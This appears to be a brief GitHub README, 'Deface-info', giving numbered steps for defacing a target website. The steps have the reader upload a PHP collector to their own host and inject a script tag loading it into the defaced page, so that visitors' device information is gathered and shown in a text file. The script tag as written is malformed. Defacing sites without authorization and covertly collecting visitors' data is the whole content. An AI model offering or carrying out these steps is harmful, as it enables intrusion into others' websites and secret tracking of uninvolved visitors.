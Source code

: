 # Deface-info

Topic:-Deface Visitors🙄 Device Information

°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°°
1:- Upload file your hosting site

2:-Open Your Deface file A editor Apps
            (Example script)
            
3:- <script src="example.com/H0rn3t.php"><script>

4:- save your deface file

5:- Upload Deface your Target site

Deface visitors device information see
               Example
https://www.example.com/H0rn3t.txt

😬
